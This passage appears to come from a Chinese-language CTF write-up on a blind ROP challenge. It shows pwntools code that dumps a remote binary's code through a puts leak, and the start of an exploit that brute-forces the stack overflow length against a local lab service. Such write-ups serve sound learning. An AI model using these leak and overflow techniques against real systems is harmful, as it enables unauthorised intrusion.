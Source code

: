             return data
        except Exception:
            sh.close()
            info('failure in {}'.format(leak_addr))
            return None

    if __name__ == '__main__':
        result = b""
        addr = 0x400000
        while addr < 0x401000:
            info("starting to deal {}".format(hex(addr)))
            data = leak(length, pop_rdi_ret, puts_addr, addr,stop_gadget)
            if data is None:
                continue
            else:
                result += data
            addr += len(data)
        with open('code', 'wb') as f:
            f.write(result)

用上面的代码将整个文件的前面的部分输出到文件，使用`ida`反编译。

需要注意的是如果泄露出来的是 "", 那说明我们遇到了`'\x00'`，因为 `puts` 是输出字符串，字符串是以`'\x00'`为终止符的。之后利用 `ida` 打开 `binary` 模式，首先在 `edit->segments->rebase program` 将程序的基地址改为 `0x400000`，然后找到偏移 `0x560` 处。

![image-20221211230812095](202212112308364.png)

可以看到，`puts_got`的地址是`0x601018`。这个是没问题的，但`push`那个地址本来应该是`0`，但不知道怎么变成了`0A0A00`，有两个`0`变成`a`了，这个希望有师傅解答一下。

### exp

跟着`wiki`一步一步写的，最后也是有点乱

    from pwn import *
    from LibcSearcher import *

    # sh = remote('127.0.0.1', 10001)

    def get_stack_length():
        length = 0
        while True:
            try:
                sh = remote('127.0.0.1', 10001)
                payload = length*b'a'
                sh.recvuntil('password?\n')
                sh.sendline(payload)
                output = sh.recv()
                sh.close()
                if output.startswith(b'No password'):
                    length += 1
                    continue
            except EOFError:
                sh.close()
                success('length:' + str(length-1))
                return length - 1
